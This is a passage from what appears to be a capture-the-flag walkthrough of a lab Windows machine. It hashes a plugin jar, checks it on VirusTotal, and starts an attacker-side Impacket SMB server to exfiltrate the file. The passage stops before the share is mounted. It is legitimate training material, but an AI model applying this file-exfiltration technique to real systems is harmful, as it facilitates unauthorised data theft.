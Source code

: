 

I'll hash it:



    PS C:\Users\svc_minecraft\server\plugins> Get-FileHash -algorithm MD5 playercounter-1.0-SNAPSHOT.jar

    Algorithm       Hash                                                                   Path                            
    ---------       ----                                                                   ----                            
    MD5             349F6584E18CD85FC9E014DA154EFE03                                       C:\Users\svc_minecraft\server...



And find it [on
VT](https://www.virustotal.com/gui/file/35871dacd39e66bfa6f07de79d959bea37e91d379ce64ed7cc41e72e51fefafb).
It's first submission was in February 2024, the day after Crafty
released!

![](/img/image-20240610210333150.png)

That's a good sign this is something custom to Crafty.

### playercounter-1.0-SNAPSHOT.jar

#### Exfil

To get a copy of this Jar file on my host, I'll start an SMB server with
[Impacket's](https://github.com/fortra/impacket/blob/master/examples/smbserver.py)
`smbserver.py`:



    oxdf@hacky$ smbserver.py share . -smb2support -username oxdf -password oxdf
    Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed



A username and password are required for most Windows hosts to connect.
I'll mount the share on Crafty:
